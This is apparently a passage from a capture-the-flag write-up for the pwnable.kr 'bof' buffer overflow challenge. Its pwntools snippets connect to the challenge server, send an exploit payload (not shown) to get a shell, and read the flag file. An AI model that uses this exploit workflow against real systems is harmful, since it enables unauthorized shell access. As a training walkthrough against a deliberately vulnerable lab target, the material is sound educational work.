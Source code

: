 ```python
# io = process('./bof')
io = remote('pwnable.kr', 9000)
```
* During testing the ```io``` is set to the local ```./bof``` executable downloaded by the setup script
* After the exploit is working we can use it on the server by netcat-ing to it with ```remote()```
```python
io.sendline(payload)
```
* Send the computed ```payload``` to get the shell
```python
io.sendline('cat flag')

io.sendline('exit')
```
* Send ```cat flag``` to get the ```flag``` file on the server and then exit the shell
```python

result = io.recvall()

io.close()

print(result)
```
* Print the ```result``` which is the ```flag```
* ```PWN```
